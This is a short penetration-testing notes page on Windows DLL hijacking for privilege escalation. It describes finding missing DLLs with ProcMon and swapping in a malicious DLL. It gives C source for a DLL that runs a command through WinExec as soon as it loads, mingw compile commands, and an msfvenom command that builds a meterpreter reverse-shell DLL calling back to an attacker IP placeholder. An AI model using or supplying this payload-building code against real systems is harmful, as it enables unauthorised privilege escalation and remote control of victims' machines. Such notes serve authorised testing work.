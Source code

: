 # DLL Hijacking
If a privileged application includes a missing DLL, we can replace that DLL and execute arbitrary privileged commands. This is different from DLL Injection as we are not injecting a DLL into a running process, but replacing a missing DLL that a privileged application uses.
## ProcMon
[ProcMon](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/tree/master/Privilege%20Escalation/windows-binaries) is a Microsoft SysInternals stand-alone binary which can be used to search for such a scenario. When ran look for any `QueryOpen` operations that result in `NAME_NOT_FOUND` Then simply replace the DLL with a malicious DLL which spawns a shell.
## Malicious DLL
#### From Source
Below is the C code which we canm use to create a "malicious" Windows DLL file.
```
#include <windows.h>
int fireLazor()
{
 //WinExec("nc", 0);
 WinExec("cmd \"d:some path\\program.bat\" \"d:\\other path\\file name.ext\"",SW_SHOW_MINIMIZED);
 return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
 fireLazor();
 return 0;
}
```
Compile the code as follows,
```
i686-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL main.cpp
i686-w64-mingw32-g++ -shared -o main.dll main.o -Wl,--out-implib,main.a
```
This will create a file called `main.dll`.
#### MSFVenom
We can also use Metasploit Framework's MSFVenom to create a "malicious" DLL as follows,
```
root@attacker-machine:~# ./msfvenom -payload windows/meterpreter/reverse_tcp LHOST=(ATTACKER IP ADDRESS) LPORT=(ATTACKER PORT) -f dll > injectme.dll 
```
